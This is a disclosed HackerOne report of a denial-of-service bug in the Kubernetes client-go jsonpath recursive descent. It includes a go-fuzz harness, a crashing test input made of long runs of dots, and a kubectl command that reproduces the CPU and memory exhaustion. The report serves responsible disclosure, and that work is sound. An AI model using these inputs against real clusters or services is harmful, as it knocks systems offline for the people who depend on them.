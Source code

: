 # DoS for client-go jsonpath func

## Report Details
- **Report ID**: 882923
- **URL**: https://hackerone.com/reports/882923
- **State**: Closed
- **Severity**: low
- **Submitted**: 2020-05-26T15:31:15.487Z
- **Disclosed**: 2020-07-24T03:46:15.593Z

## Reporter
- **Username**: lazydog
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: kubernetes

## Vulnerability Information
## Summary:
jsonpath recursive descent  cause a DoS vul
`kubectl` `apiextensions-apiserver` `cli-runtime` and `kubernetes` is depends on `client-go`

I think `evalRecursive()` cause of this vulnerability
function pos: client-go/util/jsonpath/jsonpath.go:451

## Component Version:

client-go:master

## Steps To Reproduce:
i written a simple fuzz based on  go-fuzz, im so lucky to found a crasher.

  1. pull the latest kubernetes code 

```
git clone https://github.com/kubernetes/kubernetes
```

  2.change workdir to  `kubernetes/staging/src/k8s.io/client-go/util/jsonpath`
3.copy this poc to disk use `vim` or `cat`, change filename to `crash_tests.go`

```
package jsonpath

import (
	"testing"
 	"bytes"
 	"encoding/json"
)

type jsonpathcrashTest struct {
 name     string
 template string
 input    interface{}
}

func FuzzParse(test *jsonpathcrashTest, allowMissingKeys bool) error {

 j := New(test.name)

 j.AllowMissingKeys(allowMissingKeys)
 err := j.Parse(test.template)
 if err != nil {
  return err
 }

 buf := new(bytes.Buffer)
 err = j.Execute(buf, test.input)
 if err != nil {
  return err
 }

 return err
}

func Fuzz(data []byte) int {
 var input = []byte(`{
  "kind": "List",
  "items":[
    {
   "kind":"None",
   "metadata":{
     "name":"127.0.0.1",
     "labels":{
    "kubernetes.io/hostname":"127.0.0.1"
     }
   },
   "status":{
     "capacity":{"cpu":"4"},
     "ready": true,
     "addresses":[{"type": "LegacyHostIP", "address":"127.0.0.1"}]
   }
    },
    {
   "kind":"None",
   "metadata":{
     "name":"127.0.0.2",
     "labels":{
    "kubernetes.io/hostname":"127.0.0.2"
     }
   },
   "status":{
     "capacity":{"cpu":"8"},
     "ready": false,
     "addresses":[
    {"type": "LegacyHostIP", "address":"127.0.0.2"},
    {"type": "another", "address":"127.0.0.3"}
     ]
   }
    }
  ],
  "users":[
    {
   "name": "myself",
   "user": {}
    },
    {
   "name": "e2e",
   "user": {"username": "admin", "password": "secret"}
   }
  ]
   }`)

 var nodesData interface{}
 err := json.Unmarshal(input, &nodesData)
 if err != nil {
  print(err)
 }

 fuzzData := string(data)

 test := jsonpathcrashTest{name: "crash", template: fuzzData, input: nodesData}

 err = FuzzParse(&test, false)
 if err != nil {
  return 0
 }

 err = FuzzParse(&test, true)
 if err != nil {
  return 0
 }

 return 1
}


func TestCrash(t *testing.T) {
	var data = []byte("{..................." +
	"...................." +
	"...................." +
	"...................." +
	"...................." +
	"...................." +
	"...................." +
	"...................." +
	"...................." +
	"..........51}.")
	Fuzz(data)
}

```



4.run `go test` command, now we can see the test process use a lot of cpu and memeory


{F843537}

5.i found a real case in `kubectl`, if resource (like services pods node) has any record can cause DoS.

```
kubectl get services -o=jsonpath="{.....................................................................................................................................}"
```

{F843557}

## Impact

maybe in some scenes, attacker can cause DoS.

eg. cloud components use `client-go` util to process cluster resouce json record.

any other program exec  `kubectl`  with jsonpath options, and jsonpath params by user control.

## Attachments
- DoS_1.png
- DoS_2.png

